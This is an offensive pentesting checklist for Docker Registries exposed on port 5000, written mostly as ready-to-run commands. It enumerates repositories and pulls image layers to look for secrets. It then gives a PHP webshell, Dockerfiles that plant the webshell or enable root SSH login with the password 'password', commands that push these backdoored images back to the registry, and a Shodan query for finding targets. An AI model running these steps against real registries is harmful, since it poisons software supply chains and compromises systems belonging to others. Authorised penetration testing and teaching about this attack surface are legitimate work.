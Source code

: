 # Docker Registry Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating Docker Registry (port 5000), I realistically expect to find:

- [ ] Publicly accessible registry without authentication
- [ ] List of image repositories and tags
- [ ] Image manifests revealing layer history
- [ ] Sensitive data in image layers (keys, configs, passwords)
- [ ] Ability to pull and inspect images locally
- [ ] Potential for pushing backdoored images if write access is allowed

---

## ✅ Docker Registry Pentest Checklist

- [ ] **Banner/Service Fingerprint**
  - Verify service detection from Nmap:
    ```
    nmap -sV -p5000 <IP>
    ```
  - Quick manual probe:
    ```
    curl -s http://<IP>:5000/
    curl -s http://<IP>:5000/v2/
    ```

---

- [ ] **Check for Catalog Access**
  - List all repositories:
    ```
    curl -s http://<IP>:5000/v2/_catalog
    ```
  - Expected outputs:
    - `{"repositories":["alpine","ubuntu"]}`
    - Or error if authentication required:
      ```
      {"errors":[{"code":"UNAUTHORIZED","message":"authentication required"}]}
      ```

---

- [ ] **Authentication Testing**
  - Try basic auth if needed:
    ```
    curl -u username:password http://<IP>:5000/v2/_catalog
    ```
  - Check if HTTPS is required:
    ```
    curl -k https://<IP>:5000/v2/_catalog
    ```

---

## ✅ Repository Enumeration

- [ ] **List Tags for Each Repo**
    ```
    curl -s http://<IP>:5000/v2/<repo>/tags/list
    ```

- [ ] **Get Image Manifests**
    ```
    curl -s http://<IP>:5000/v2/<repo>/manifests/<tag>
    ```

---

## ✅ Download & Inspect Image Layers

- [ ] **Pull Blobs**
    ```
    curl http://<IP>:5000/v2/<repo>/blobs/<sha> --output layer.tar
    ```
  - Inspect contents:
    ```
    tar -xf layer.tar
    ```
  - ⚠️ **Tip**: Extract each blob in a separate folder to avoid overwriting files.

---

## ✅ Using Docker Client

- [ ] **Pull Image from Registry**
    ```
    docker pull <IP>:5000/<repo>:<tag>
    ```

- [ ] **Check Image History**
    ```
    docker history <IP>:5000/<repo>:<tag>
    ```

- [ ] **Run a Container**
    ```
    docker run -it <IP>:5000/<repo>:<tag> /bin/bash
    ```

---

## ✅ Backdooring Images

- [ ] **Create Simple Webshell (Example)**
    ```bash
    echo "<?php echo shell_exec(\$_GET['cmd']); ?>" > shell.php
    ```

- [ ] **Sample Dockerfile to Add Webshell**
    ```dockerfile
    FROM <IP>:5000/wordpress
    COPY shell.php /app/
    RUN chmod 777 /app/shell.php
    ```

- [ ] **Build and Push Backdoored Image**
    ```bash
    docker build -t <IP>:5000/wordpress .
    docker push <IP>:5000/wordpress
    ```

---

## ✅ SSHD Example Backdoor

- [ ] **Modify sshd_config**
    - Ensure `PermitRootLogin yes`
- [ ] **Sample Dockerfile**
    ```dockerfile
    FROM <IP>:5000/sshd-docker-cli
    COPY sshd_config /etc/ssh/
    RUN echo root:password | chpasswd
    ```
- [ ] **Build and Push**
    ```bash
    docker build -t <IP>:5000/sshd-docker-cli .
    docker push <IP>:5000/sshd-docker-cli
    ```

---

## ✅ Shodan Search

- [ ] Discover exposed Docker Registries:
    ```
    port:5000
    ```

---
